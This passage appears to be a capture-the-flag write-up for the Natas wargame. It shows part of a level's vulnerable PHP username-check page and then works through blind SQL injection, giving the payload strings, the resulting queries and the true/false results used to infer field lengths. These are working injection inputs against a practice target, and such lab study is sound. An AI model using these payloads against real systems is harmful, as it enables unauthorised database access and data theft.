 ```html
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

blind sql injection  

```
Input  : natas16  
Query  : SELECT * from users where username="natas16"  
Result : true  
```

```
Input  : natas16" AND "1"="1  
Query  : SELECT * from users where username="natas16" AND "1"="1"  
Result : true  
```


A good next thing to know whould be the password lenght. Lets first test the username lenght.  
 
Testing username lenght   
We should get a 'This user exists.' if the lenght of username is 7.   

```
input  : natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=1#   
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=1#  
Result : false  
```

```
input  : natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=7#  
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=7#  
Result : true  
```
